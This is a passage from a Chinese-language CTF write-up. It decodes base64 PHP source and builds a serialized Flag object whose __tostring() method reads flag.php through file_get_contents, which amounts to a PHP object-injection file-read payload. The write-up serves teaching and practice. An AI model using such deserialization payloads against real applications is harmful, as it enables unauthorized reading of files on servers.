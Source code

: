 ![image-20230708103258865](CTF.assets/image-20230708103258865.png)

这里得到了源码，使用的是`base64`来编码，使用PHP做解码

```php
<?php

$str = "PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=";

echo base64_decode($str);

# 输出
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

#### 绕过点三

这里的`PHP反序列`非常简单，只要保证`$file`指向的是`flag文件`就行，源码中的`echo $password;`会自动触发` __tostring()`魔术方法

```php
<?php

class Flag
{  //flag.php
    public $file = 'flag.php';

    public function __tostring()
    {
        if (isset($this->file)) {
            echo file_get_contents($this->file);
            echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}


$f = new Flag();
echo serialize($f);

# 输出
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

